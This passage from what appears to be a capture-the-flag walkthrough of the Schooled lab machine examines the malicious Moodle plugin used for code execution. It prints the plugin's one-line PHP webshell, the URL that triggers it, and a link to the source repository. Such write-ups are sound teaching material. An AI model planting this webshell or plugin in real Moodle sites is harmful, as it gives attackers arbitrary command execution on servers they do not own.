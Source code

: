 

There's a bunch in there, but four lines from the bottom is the output
of `id` showing root. From there I can get a shell any number of ways.

## Beyond Root

I used a malicious Moodle plugin to get execution on Schooled. Rather
than make one, I downloaded one from [this
GitHub](https://github.com/HoangKien1020/Moodle_RCE). I uploaded the
plugin, and then triggered the webshell at:



    http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id



So what is it?

The file is `rce.zip`, and it is a zip archive that contains two files
with some directories:



    oxdf@parrot$ file rce.zip 
    rce.zip: Zip archive data, at least v1.0 to extract
    oxdf@parrot$ unzip -l rce.zip 
    Archive:  rce.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
            0  2020-06-17 11:23   rce/
            0  2020-06-17 09:52   rce/lang/
            0  2020-06-17 13:43   rce/lang/en/
           30  2020-06-17 11:31   rce/lang/en/block_rce.php
           73  2020-06-17 13:43   rce/version.php
    ---------                     -------
          103                     5 files



`version.php` gives some metadata about the "plugin":



    <?php 
    $plugin->version = 2020061700;
    $plugin->component = 'block_rce';



`block_rce.php` is a simple webshell:



    <?php system($_GET['cmd']); ?>



Moodle must unpack the plugin into the `/blocks/` directory, where I can
then access it.





